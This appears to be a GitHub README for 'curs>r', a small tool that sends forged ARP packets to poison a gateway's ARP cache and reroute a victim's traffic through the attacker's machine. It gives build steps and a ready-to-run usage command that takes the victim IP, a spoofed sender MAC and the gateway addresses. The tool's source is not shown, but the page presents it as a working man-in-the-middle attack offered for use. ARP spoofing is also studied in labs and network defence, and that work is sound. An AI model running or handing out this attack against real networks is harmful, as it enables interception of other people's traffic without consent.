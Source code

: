 # curs>r
A small tool to send malicious arp packets that poison the arp cache of gateway, so the victim's traffic is able to route to the attacker's machine.The curs>r name inspired by an 80s survival horror game in a netflix movie called "Choose or Die" where the game makes the players step into a surreal world of next-level terror and forces them to make choices with deadly consequences.

### Prerequisites
+ [CMake](http://www.cmake.org "CMake project page") (>= 3.17)

### Building
```bash
cd build
./builder.sh
```

### Usage
```bash
➜ ./curser -h
Usage: curser [OPTIONS]
OPTIONS:
	-ifn   interface name
	-op    type of packet[req/rep]
	-vpa   victim ip
	-sha   sender mac address
	-gpa   gateway ip
	-gha   gateway mac address
  
➜ sudo ./curser -ifn en0 -op req -vpa 192.168.0.22 -sha 00:AA:BB:CC:DD:EE -gpa 192.168.1.1 -gha 00:01:02:03:04:05
```
